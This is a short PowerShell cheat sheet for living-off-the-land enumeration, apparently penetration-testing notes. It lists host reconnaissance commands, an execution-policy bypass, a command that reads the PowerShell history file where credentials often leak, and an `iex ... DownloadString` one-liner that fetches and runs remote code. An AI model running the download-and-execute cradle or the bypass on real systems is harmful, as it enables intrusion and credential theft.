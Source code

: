 
Powershell commands are usually written in pascal case with hyphen, but can be written in lowercase.
Additionally, there are often much shorter aliases for commands, check them with `alias` or `alias | where name like "<my-command>"`
### Basic
- `Get-Module`: List available modules
- `Get-ExecutionPolicy -List`
- `Set-ExecutionPolicy Bypass -Scope Process`
- `Get-ChildItem Env: | ft Key,Value`: check environment variables
- `Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`: check history
- `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"`: download file

### Filtering & Selection
Objects from commands are usually returned with a first row containing field names.
These field names can be printed with `Get-Member`

- `| Select-Object <field name> -<operation> <field value`: where operation can be eq, like, gt, lt, ...
- `| Where ...`

### Enumeration Commands
Commands useful when LOTL:
- `hostname`
- `wmic qfe get Caption,Description,HotFixID,InstalledOn`: Prints the patches and hotfixes applied to the host
- `ipconfig /all`
- `whoami /all`
- `set`: Display list of environment variables
- `echo %USERDOMAIN%`
- `echo %logonserver%`
- `systeminfo`
- `Get-Host`